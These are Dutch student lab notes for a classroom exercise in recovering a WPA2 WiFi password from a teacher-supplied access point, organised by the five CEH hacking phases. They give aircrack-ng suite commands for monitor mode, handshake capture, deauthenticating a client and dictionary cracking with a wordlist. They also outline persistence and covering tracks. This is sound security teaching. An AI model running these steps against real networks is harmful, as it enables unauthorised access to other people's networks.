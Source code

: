 Doel 

Het doel van de opdracht is het achterhalen van een WiFi wachtwoord. 

Theorie 

Vijf fasen volgens CeH  

1. Reconnaissance (verkenning) voorbeelden - social enginering - dumpster diving - sniffing 
2. Scanning (meer informatie verkrijgen door scans) beeld krijgen van het netwerk en de zwakheden ervan 
3. Gainning access (toegang krijgen) Toegang krijgen tot het netwerk (bedraad / onbedraad) dmv een exploit, DOS (Denial of Services), session Hjacking 
4. Maintainning Access (zorgen voor permanente toegang) inzetten van: rootkits, backdoors en trojans, beveiligen van het systeem zodat andere crackers het systeem niet over kunnen nemen -> zombie systeem 
5. Covering tracks (voetsporen ofwel bewijsmateriaal verwijderen op het gekraakte systeem maar ook op de eigen systemen 

WIFI netwerk theorie 

Authenticatie / authorisatie 

versleuteling 

WiFi netwerken 

|   |   |   |
|---|---|---|
|Type netwerk|aanvalsplan|Praktisch|
|Open netwerk|Geen, het netwerk is open en toegankelijk|-|
|verborgen|Eerst hidden BSSID achterhalen daarna||
|WPS|Zoveel mogelijk packets afvangen en systeem||
|WEP|In de handshake zit de PSK <br><br>Zoveel mogelijk packets afvangen en system laten analyseren. <br><br>Optioneel: De verbinding tussen het AP en de client geforceerd verbreken zodat de client zich opnieuw moet aanmelden op het AP.||
|WPA/WPA2|Handshake afvangen (eventueel door geforceerd de verbinding tussen client en AP te verbreken). Daarna aan de hand van de wachtwoordlijst het wachtwoord achterhalen.||
|Radius|Niet mogelijk om de wachtwoorden te achterhalen. Elke gebruiker wordt geautoriseerd op de radius server.||

Praktisch  

Installatie en configuratie van het WiFi AP: 

- Encryptie => WPA2 
- PSK => via docent 
- WAN verbinding (via NAT router – IP 192.168.0.248/255.255.255.0, IP DNS 10.110.2.2, 10.110.2.3) 

Fase 2 -> Scanning 

In deze fase wordt het netwerk gescand. Hiervoor is een aparte adapter nodig die in monitor mode gezet kan worden. 

1. Koppel de adapter aan het systeem 
2. Koppel de adapter via de settings (USB) van virtualbox aan je VM (kali) 
3. Controleer wat de naam van de adapter is iwconfig 
4. Zet de adapter in monitor mode airmon-ng start naam_adapter 
5. Controleer wat de naam van de adapter is geworden iwconfig 
6. Scan het netwerk en noteer de bevindingen airodump-ng naam_adapter_mon0  
7. Noteer welke netwerk zijn gevonden 

|   |   |   |   |   |
|---|---|---|---|---|
|item|WiFi 1|WiFi 2|WiFi 3|WiFi 4|
|MAC adres Access Point (BSSID)|14:EB:B6:1C:E7:24||||
|Fabrikant|TP-link||||
|Kanaal|10||||
|Versleuteling|WPA2||||
|Netwerknaam (ESSID)|Afluisterbuisje||||
|WPS beschikbaar|Ja||||
|WPS geblokkeerd|Nee||||
|Opmerking|WPS 2.0||||

![[Pasted image 20231004120621.png]]

Fase 3 -> Gainning Access 

Aan de hand van flowchart (komt nog) bepalen van aanvalsplan 

WPA 2 of 3 kraken 

Dump maken van het netwerkverkeer (liefst client en AP) naar een bestand 

airodump-ng naam-adapter_mon0 –bssid mac-address –c channel –w output-file

![[Pasted image 20231004120631.png]]

Gelijktijdig verbinding tussen client en AP verbreken (zodat de client zich opnieuw aanmeld – authentication) 

aireplay-ng naam-adapter_mon0 –0 3 –a mac-address-AP –c mac-client 

Dump van het netwerkverkeer stoppen 

Analyse van het bestand waar de authenticatie inzit. 

Aircrack-ng –a 2 –b mac-address-AP –w path/wordlist capturefile.cap

![[Pasted image 20231004120641.png]]

```
aircrack -ng "location" -w /usr/share/wordlist/rockyou.txt
```

![[Pasted image 20231004120650.png]]

Fase 4 -> Maintaining Access  

Maak (indien mogelijk) een nieuw gebruikers account met wachtwoord 

Verander het oude wachtwoord 

Wat zijn de mogelijkheden op het device? 

Is het mogelijk om een sombie systeem te maken? 

Fase 5 -> Covering tracks 

Zorg ervoor dat de sporen worden uitgewist, denk hierbij aan: 

- Sporen op het eigen systeem 
- Sporen op het remote systeem 

Welke sporen zijn gewist op het local systeem? 

Welke sporen zijn gewist op het remote systeem?